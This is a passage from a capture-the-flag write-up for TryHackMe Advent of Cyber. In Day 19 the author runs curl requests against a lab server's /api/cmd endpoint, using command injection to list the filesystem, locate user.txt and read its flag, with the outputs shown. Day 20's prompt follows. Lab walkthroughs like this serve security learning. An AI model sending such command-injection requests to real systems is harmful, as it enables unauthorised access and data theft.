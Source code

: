 `2564799a4e6689972f6d9e1c7b406f87065cbf65`

## [Day 19] Commands

Another day, another hack from the Christmas Monster. Can you get back control of the system?

Access the web server on http://[your-ip]:3000/

McSkidy actually found something interesting on the /api/cmd endpoint.

Check out the supporting material [here](https://docs.google.com/document/d/1W65iKmUMtz-srteErhrGFJkWBXJ4Xk5PYlCZVMIZgs8/edit?usp=sharing).

1. What are the contents of the user.txt file?

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/
christmas monster was here

bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /api/cmd</pre>
</body>
</html>

bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd/ls
{"stdout":"bin\nboot\ndata\ndev\netc\nhome\nlib\nlib64\nlocal\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n","stderr":""}

bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd/find%20%2f%20-name%20"user.txt"
{"stdout":"/home/bestadmin/user.txt\n","stderr":""}

bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd/cat%20home%2fbestadmin%2fuser.txt
{"stdout":"5W7WkjxBWwhe3RNsWJ3Q\n","stderr":""}
```

`5W7WkjxBWwhe3RNsWJ3Q`

## [Day 20] Cronjob Privilege Escalation

You think the evil Christmas monster is acting on Elf Sam's account!

Hack into her account and escalate your privileges on this Linux machine.

There is no supporting material - the only new concept in this challenge is Linux cronjobs. Join our [Discord](https://discord.gg/wvfe3XJ) if you're really struggling.
